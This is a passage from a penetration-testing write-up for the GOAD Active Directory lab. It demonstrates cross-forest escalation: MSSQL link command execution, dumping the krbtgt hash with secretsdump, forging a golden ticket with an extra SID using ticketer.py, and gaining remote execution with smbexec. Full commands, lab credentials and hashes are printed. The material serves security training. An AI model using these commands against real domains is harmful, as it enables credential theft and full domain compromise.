 - Because the link use sa as remote login  on braavos we can enable cmd and launch command.

![trust_forest_mssql_exec.png](/assets/blog/GOAD/trust_forest_mssql_exec.png)


## Golden ticket with external forest, sid history ftw ( essos -> sevenkingdoms)

> This attack can be done only because SID history is enabled on the sevenkingdoms->essos trust

- Find the domain sid with lookupsid.py
  - essos SID : S-1-5-21-2203133648-1386395927-1390703624
  - sevenkingdoms SID: S-1-5-21-1409754491-4246775990-3914137275

- Like before extract the krbtgt hash

```
secretsdump -just-dc-user 'essos/krbtgt' essos.local/daenerys.targaryen:'BurnThemAll!'@192.168.56.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e58cf01ba6cc645da9f7ab1f28fc3934:::
...
```

- We need a group to target on the extra-sid with an RID > 1000 due to SID filter ([see Microsoft documentation about sid filtering](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/55fc19f2-55ba-4251-8a6a-103dd7c66280?redirectedfrom=MSDN))

> About sid filtering dirkjanm say on his [blog](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/) : _"What this does mean for an attacker is that you can spoof any RID >1000 group if SID history is enabled across a Forest trust!"_
{: .prompt-tip }

- The group dragonrider is a perfect match (on a real audit exchange groups are usualy a good target)

![trust_dragonrider.png](/assets/blog/GOAD/trust_dragonrider.png)

- Create the golden ticket for a fake user

```bash
ticketer.py -nthash e58cf01ba6cc645da9f7ab1f28fc3934 \
-domain-sid S-1-5-21-2203133648-1386395927-1390703624 \
-domain essos.local \
-extra-sid S-1-5-21-1409754491-4246775990-3914137275-1132 \
dragon
```

- And use it (secretsdump will work too)

```bash
export KRB5CCNAME=/workspace/trusts/external/dragon.ccache
smbexec.py -k -no-pass dragon@kingslanding.sevenkingdoms.local -debug
```
